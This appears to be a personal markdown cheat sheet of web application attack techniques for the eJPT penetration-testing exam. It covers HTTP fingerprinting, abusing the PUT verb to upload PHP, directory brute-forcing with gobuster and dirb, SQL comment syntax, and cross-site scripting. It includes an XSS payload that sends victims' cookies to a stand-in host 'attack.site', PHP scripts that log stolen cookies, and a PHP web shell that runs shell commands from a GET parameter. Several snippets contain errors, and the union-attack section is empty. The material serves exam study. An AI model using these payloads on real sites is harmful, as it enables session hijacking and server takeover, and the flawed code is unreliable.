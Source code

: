 # Web Application Tools
 My list of Web Application tools for the eJPT exam.

-------------------------------------

## *HTTP Protocol and Fingerprinting*

1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

-------------------------------------

## *HTTP Verbs - Use in Burpsuite*

### (Can be used on misconfigured web servers)

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

"GET" Example:

    GET /page.php?comman=pwd HTTP/1.1
    Host: www.host.com


"POST" Example:

    POST /login.php? HTTP/1.1
    Host: www.host.com


    username=admin&password=1234


"DELETE" Example:

    DELETE /wp-content/imp.file HTTP/1.1
    Host: www.host.com

"PUT" Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>

-------------------------------------

## *Dirbuster(GUI)/Gobuster/Dirb*

* Search for interesting file types
    * php
    * txt
    * bak
    * old

    $gobuster dir --url http://host.com/ -w /path/to/word.list -x php,txt,old,bak -o output.txt

    $dirb http://host.com/ /path/to/word.list -X php,txt,bak,old -o output.txt

    $dirb https://host.com/ (Simple SSL test)

*Tips: Searh for **Signup pages** and **old configuration files.***

-------------------------------------

## Cross-Site Scripting

* Session Cookies
    * document.cookie - This is where the cookies are stored

    *Display cookie as an alert*
    ``` 
    [<script>alert(document.cookie)</script>]
    ```
    *Victim's Browser* <--- **Inject this piece of code!**
    ```
    <script>
    var i = newImage();
    i.scr="http://attack.site/log.php?="+document.cookie;
    </script>
    ```

    *Attacker's Computer*
    ```
    <?php
    $filename="/tmp/log.txt;
    $fp=fopen($filename, 'a');
    $cookie=$_GET['q'];
    fwrite($fp, $cookie);
    fclose($fp);
    ?>
    ```
    *Alternate code*

    ```
    <?php
    $ip = $_SERVER['REMOTE_ADDR'];
    $browser = $_SERVER['HTTP_USER_AGENT'];

    $fp = fopen('jar.txt', 'a');

    fwrite($fp, $ip.' '. $browser." \n");
    fwrite($fp, urldecode($_SERVER('QUERY_STRING')). " \n\n");
    fclose($fp);
    ?>
    ```
-------------------------------------
## SQL-Injection

* SQL Statements

```
SELECT * FROM table WHERE <condition>;
```

Putting comments in statements
```
# Hash symbol
-- Double hyphens followed by a whitespace (add a space and another hyphen "-- -")

Select * FROM table; # Comment
Select * FROM table; -- Another comment
```

* Union Attacks










-------------------------------------

## *Reverse Shell Links*

[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    >

